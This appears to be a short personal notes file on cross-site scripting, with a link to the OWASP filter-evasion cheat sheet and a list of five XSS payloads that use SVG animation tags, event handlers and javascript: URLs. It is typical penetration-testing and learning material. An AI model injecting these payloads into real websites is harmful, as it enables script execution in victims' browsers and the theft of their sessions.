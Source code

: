 # XSS

### Usefull links 
- https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

### Usefull payloads

```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
<svg><a><animate+attributeName=xlink:hrefbegin=0from=javascript:alert(1)to=&>
<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>
<xss id=x tabindex=1 onfocus=alert(1)> url#x
<tag onresize=alert(1)> // <iframe src="url" onload="this.width = 100"> or use window.open and window.sizeTo
```